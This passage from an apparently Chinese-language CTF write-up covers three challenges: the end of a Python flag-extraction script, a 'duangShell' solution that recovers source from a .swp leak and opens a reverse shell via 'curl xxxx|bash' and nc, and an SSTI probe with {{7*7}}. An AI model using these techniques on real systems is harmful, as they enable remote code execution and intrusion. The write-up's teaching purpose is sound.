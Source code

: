 ```
        x=requests.session()
        if 'BJD needs' in x.post(url,data=data).text:
        #    print(x.post(url,data=data).text)
            flag=tmp
            break
    print(flag.replace("^",""))
```

## duangShell - Mrkaixin

入题直接给了 hint 说明了 swp 泄露

![图片5](https://uploader.shimo.im/f/fOQ9J0Vv4jUXxLaU.png!thumbnail)

vi -r .index.php.swp 可以恢复文件，保存一下就行了

![图片6](https://uploader.shimo.im/f/49UJFcBdGNolqqhP.png!thumbnail)

由于这里使用的`exec`，并且过滤了蛮多。写 shell，大概率不可能了。很容易想到可以弹 shell

这里可以利用 curl xxxx|bash 来弹 shell

首先在服务器上创建一个文件 Mrkaixin.txt,写入弹 shell 的语句

![图片7](https://uploader.shimo.im/f/sUUEWobOZNI1PB9d.png!thumbnail)

然后来一发~~~

![图片8](https://uploader.shimo.im/f/vX5iALDxXDIwSSwc.png!thumbnail)

然后服务器用 nc 接一下

![图片9](https://uploader.shimo.im/f/DVf8r6ezStMrHD73.png!thumbnail)

发现/flag 是假的，然后利用 find 命令找到 flag

find / -name flag

![图片10](https://uploader.shimo.im/f/AtoBeIFAKB0kDGx8.png!thumbnail)

## fake google - rdd

点击链接后发现是一个 google 的界面

点击搜索按钮没有反应

直接在搜索框中输入文字，回车，跳转到./qaq 界面

在源码里发现提示是 ssti，且很轻易的知道，利用是输入的文字

![图片11](https://uploader.shimo.im/f/crZAyRXWT9gtE0s6.png!thumbnail)

测试?name={{7*7}}

![图片12](https://uploader.shimo.im/f/s5r7Hko92bIFejeO.png!thumbnail)
